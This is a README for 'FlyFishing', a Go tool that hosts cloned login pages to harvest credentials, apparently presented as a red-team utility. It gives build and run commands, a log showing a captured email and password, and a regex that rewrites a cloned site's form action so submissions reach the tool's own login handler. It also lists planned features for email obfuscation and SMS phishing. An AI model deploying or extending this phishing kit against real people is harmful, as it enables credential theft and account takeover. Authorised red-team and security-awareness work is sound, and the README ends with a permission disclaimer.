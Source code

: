 # FlyFishing
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. 

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go build -o fishing main.go
```

# Usage 🎯
Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

# Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html)

# Todo 🧾
* Location Detection HTML5 Geolocation [ ]
* Email Creation and Obfuscation [ ]
* SMS capabilities [ ]
* Multi-Stage Phishing Support [ ]

# Disclaimer
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.